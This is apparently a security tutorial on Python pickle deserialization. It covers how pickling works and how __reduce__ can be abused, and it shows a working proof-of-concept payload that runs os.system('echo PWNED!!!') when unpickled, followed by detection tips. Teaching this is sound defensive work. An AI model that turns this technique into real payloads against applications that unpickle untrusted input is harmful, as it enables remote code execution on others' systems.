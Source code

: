 # Python Pickle Deserialization Exploitation

## Serialization in python

In python, the default library used for serialization and deserialization is [pickle](https://docs.python.org/3.6/library/pickle.html).

```pickle.dumps(python_object): => plain string representation of the object```

Here's an example code snippet to demonstrate what serialization with pickle looks like:

```python
import pickle

class User(object):
    username = 'bob'
    role = 'admin'

pickled_data = pickle.dumps(User)

print(type(pickled_data))
print(pickled_data)
```

Running the code we get a serialized string that represents the ```user``` object.

```console
<class 'bytes'>
b'\x80\x04\x95%\x00\x00\x00\x00\x00\x00\x00}\x94(\x8c\x08username\x94\x8c\x03bob\x94\x8c\x04role\x94\x8c\x05admin\x94u.'
```

This has now converted an object of type *dict* to a stream of bytes.

## Deserialization in python

When the data needs to be used, ```pickle.loads()``` is used to unpack and get the underlying object.

```pickle.loads(serialized_bytes): => original python object```

Here's an example to demonstrate deserialization with pickle:

```python
import pickle

class User(object):
    username = 'bob'
    role = 'admin'

pickled_data = pickle.dumps(User)
unpickled_data = pickle.loads(pickled_data)

print(type(unpickled_data))
print(unpickled_data.username)
print(unpickled_data.role)
```

This code snippet serializes the user object of type *dict* to bytes and then deserializes it back to the *dict* object. The output is as follows:

```console
<class 'type'>
bob
admin
```

## Manipulating the behaviour of pickling/unpickling

Pickle provides a way to execute arbitrary commands through the use of its ```__reduce__()``` method. To understand how this is possible, we must first take a look at the working of the ```__reduce__()``` method.

### __reduce__() explained

Pickle has certain restrictions as in not every object can be serialized. Objects such as file handles and others come with certain restrictions. The pickle docs give an overview of [what can be pickled and unpickled](https://docs.python.org/3/library/pickle.html#what-can-be-pickled-and-unpickled).

For the special cases where an object cannot be pickled, pickle allows you to define custom behaviours of the pickling process for your class instances. Let's take an example of what happens when a file descriptor is serialized:

```python
import pickle

class Demo(object):
    def __init__(self, file_path):
        self.some_random_file = open(file_path, 'wb')    # Open a file in write mode

file_tester = Demo('/home/bob/test.txt')
pickle.dumps(file_tester)    # Attempt to serialize an object containing a file descriptor
```

As expected we get the following error:

```console
Traceback (most recent call last):
  File "test.py", line 22, in <module>
    pickle.dumps(file_tester)                   # Attempt to serialize an object containing a file descriptor
TypeError: cannot pickle '_io.BufferedWriter' object
```

This is where the ```__reduce__()``` method comes into play. We can define how we want pickle to serialize this object.

```python
import pickle

class Demo(object):
    def __init__(self, file_path):
        self.some_file = file_path
        self.some_random_file = open(file_path, 'wb')    # Open a file in write mode

    def __reduce__(self):
        return(self.__class__, (self.some_file, ))     # Pass a blank object class and a tuple to pass to the class constructor

file_tester = Demo('/home/bob/test.txt')
saved_object = pickle.dumps(file_tester)    # Attempt to serialize an object containing a file descriptor

print("Serialized: ")
print(saved_object)
print("Deserialized: ")
print(vars(pickle.loads(saved_object)))    # Print vars of the deserialized object including the file descriptor
```

The ```__reduce__()``` method according to the python [docs](https://docs.python.org/3/library/pickle.html#object.__reduce__) needs a tuple of atleast 2 things:

1. A blank object class to call. In this case, ```self.__class__```
2. A tuple of arguments to pass to the class constructor. In this case it is a single string ```self.some_file``` which is the path to the file to open.

This time around we see that the object has been serialized. We deserialize it soon after and the output is as follows:

```console
Serialized:
b'\x80\x04\x95#\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x94\x8c\x04Demo\x94\x93\x94\x8c\x07/home/bob/test.txt\x94\x85\x94R\x94.'
Deserialized:
{'some_file': '/home/bob/test.txt', 'some_random_file': <_io.BufferedWriter name='/home/bob/test.txt'>}
```

Therefore, by using ```__reduce__()``` in a class whose instances we need to pickle, we can give the pickling process a callable plus some arguments to run. The purpose of the method is for reconstructing objects however, we can utilize this for code execution.

## Exploiting pickle

Now we abuse the reduce method by inserting code in it as follows:

```python
import pickle
import os

class Evil(object):
    def __reduce__(self):
        cmd = 'echo PWNED!!!'
        return (os.system, (cmd, ))

pickle_data = pickle.dumps(Evil())
print(pickle_data)
```

The output will produce the serialized byte stream: ```b'\x80\x04\x95(\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\recho PWNED!!!\x94\x85\x94R\x94.'```.
We can pass this as input to a vulnerable application that attempts to directly deserialize this without any sanitization. This is demonstrated as follows:

```python
import pickle

evil_input = b'\x80\x04\x95(\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\recho PWNED!!!\x94\x85\x94R\x94.'
unpickled_data = pickle.loads(evil_input)
```

On deserialization, the reduce method is called and as a result, code is executed:

```console
$ python3 test.py
PWNED!!!
```

## Detecting python deserialization vulnerabilities

There are 2 main ways to detect if python serialization was done by pickle and/or is vulnerable to deserialization attacks:

1. Blackbox: If the traffic data contains the symbol dot . at the end, it's very likely that the data was sent in serialization. For example the byte string mentioned above
2. Whitebox: The uses of ```pickle/c_pickle/_pickle``` with ```load/loads``` in the code
